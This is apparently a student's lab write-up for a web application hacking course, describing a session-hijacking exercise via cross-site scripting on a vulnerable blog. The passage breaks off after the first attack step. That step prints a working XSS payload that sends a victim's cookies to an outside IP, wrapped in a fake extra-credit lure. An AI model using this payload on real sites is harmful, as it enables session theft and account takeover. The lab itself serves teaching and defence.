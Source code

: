 # WAPH-Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

### Name: Sruthi Sridhar Bopparthi
### Email: bopparsr@mail.uc.edu

![Sruthi's Headshot](Images/Sruthi_Pic.jpeg)

## Repository Information
### Repository's URL: [https://github.com/SruthiAelay/waph-bopparsr.git](https://github.com/SruthiAelay/waph-bopparsr.git)
### This is a private repository which is used to store all the codes related to course Topics in Computer Systems. The structure of this repository is as mentioned below.

# Hackathon 3 - Session Hijacking Attack

## Lab's overview
This hackathon offers participants a deep dive into the world of cybersecurity through a practical exercise on session hijacking via cross-site scripting (XSS) on a vulnerable blog application. By engaging in roles of both attacker and victim, participants learn to exploit and defend against XSS vulnerabilities. The exercise involves injecting malicious code to steal session cookies and then using these stolen credentials to hijack a session, gaining unauthorized access. This hands-on approach not only highlights the technicalities of conducting an XSS attack but also emphasizes the importance of robust web security measures to protect against such vulnerabilities.

Link to Hackathon3 code : [https://github.com/SruthiAelay/waph-bopparsr/tree/main/Hackathon/Hackathon3]([https://github.com/SruthiAelay/waph-bopparsr/tree/main/Hackathon/Hackathon3])

## Part 1 : Attack

### Step 1 (Attacker)
The attacker's goal is to inject malicious JavaScript code into the blog application’s comments section. This code is designed to steal session cookies from any victim who interacts with the malicious comment, typically by clicking on a link or simply viewing the comment if the site renders the JavaScript automatically.This is done by posting a commment with embedded JavaScript code such as
Code:
```
<a onclick="window.location='http://192.167.9.51/?cookie='+document.cookie"> Click here! </a>
To get 10% extra Credit!!! Offer is valid to limited time only!
```
